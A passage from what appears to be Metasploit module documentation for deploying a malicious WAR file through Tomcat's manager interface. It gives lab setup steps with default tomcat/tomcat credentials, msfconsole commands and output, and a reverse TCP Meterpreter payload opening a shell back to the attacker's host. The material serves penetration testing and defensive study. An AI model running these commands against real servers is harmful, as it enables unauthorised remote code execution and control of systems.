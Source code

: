     
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Using manually select target "Linux x86"
    [*] Uploading 1545 bytes as 9bj4IYa66cSpdK.war ...
    [!] No active DB -- Credential data will not be saved!
    [*] Executing /9bj4IYa66cSpdK/g3Yxbv3.jsp...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (335800 bytes) to 192.168.2.156
    [*] Undeploying 9bj4IYa66cSpdK ...
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.156:40020) at 2017-01-11 21:18:31 -0500
    
    meterpreter > sysinfo
    Computer     : Ubuntu14.04
    OS           : Ubuntu 14.04 (Linux 4.2.0-27-generic)
    Architecture : x64
    Meterpreter  : x86/linux
    ```

### Tomcat7 (7.0.68) - Ubuntu server 16.04 64bit
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  Each sub role the user has will change which `path` variable for exploitation.

#### Setup
1. Install Tomcat and dependencies: `apt-get install tomcat7 tomcat7-admin`

#### text/script Interface Exploitation

1. Edit `/etc/tomcat7/tomcat-users.xml` to add:

    ```
    <role rolename="manager-script"/>
    <user username="tomcat" password="tomcat" roles="manager-script"/>
    ```

2. Restart Tomcat: `sudo service tomcat7 restart`
  1. To verify the permissions are all set correctly, browse to `http://192.168.2.118:8087/manager/text/deploy`, and you should see `FAIL - Invalid parameters supplied for command [/deploy]
` as opposed to `403 Access Denied`

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_deploy 
    msf exploit(tomcat_mgr_deploy) > set rhost 192.168.2.118
    rhost => 192.168.2.118
    msf exploit(tomcat_mgr_deploy) > set rport 8087
    rport => 8087
    msf exploit(tomcat_mgr_deploy) > set target 3
    target => 3
    msf exploit(tomcat_mgr_deploy) > set payload linux/x86/mettle/reverse_tcp
    payload => linux/x86/mettle/reverse_tcp
    msf exploit(tomcat_mgr_deploy) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_deploy) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_deploy) > exploit
    msf exploit(tomcat_mgr_deploy) > set path /manager/text
    path => /manager/text
    msf exploit(tomcat_mgr_deploy) > exploit
    